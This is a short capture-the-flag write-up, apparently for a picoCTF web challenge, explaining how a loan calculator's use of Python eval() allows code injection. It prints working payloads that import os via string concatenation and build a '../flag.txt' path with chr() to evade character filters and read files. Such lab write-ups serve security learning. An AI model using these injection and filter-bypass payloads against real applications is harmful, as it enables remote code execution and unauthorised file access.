



* # Category: 🌐 Web
* # Difficulty: Medium
* # Vulnerability:RCE
---
## Description:
   
###   The site is a bank's loan calculator which unfortunately in its implementation has the function eval() which takes an paramater and runs it as code.This can be manipulated into RCE(Remote Code Execution).

>>  FUN FACT:This is actually mentioned in the CTF's description!

>>
## Some theory:
### RCE can be done in three main ways: 
* #### File Injection
```
Often when we can insert images or certain files.
```
* #### Command Injection
```
Can be tested with commands such as echo.
```
* #### Code Injection
```
Harmful code (often python) which can be used to control the system.
```
---
## Solution:

### Examining the source code for the website we notice that we have a Code Injection situation and it has certain restrictions.This is often called PythonJail.
 

###  While searching for some resources i have found these useful stuff :
* #### [Python Jail Escapes/KITCTF](https://kitctf.de/learning/python-jails)
* #### [Python CheatSheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)
### First I tried observing where the a suspicious file may be. So the first injection i did was:
```
__import__('o'+'s').popen('l'+'s').read()
```

### Secondly some other characthers which were restricted were:
 ```
. / \
 ```
 ### so i searched for the ascii table and used the chr function as such:
 ```
 chr(ascii_number_character)
 ```
---
### After some short digging i have found that the file path is 
```
 ../flag.txt
 ```
### And I have managed to come up with this:
```
__import__('o'+'s').popen('c'+'a'+'t'+' '+chr(46)+chr(46)+chr(47)+'flag'+chr(46)+'txt').read()
```
### FLAG(not actual flag):

```
picoCTF{D0nt_Use_REDACTED_f@nctions5e20166b}
```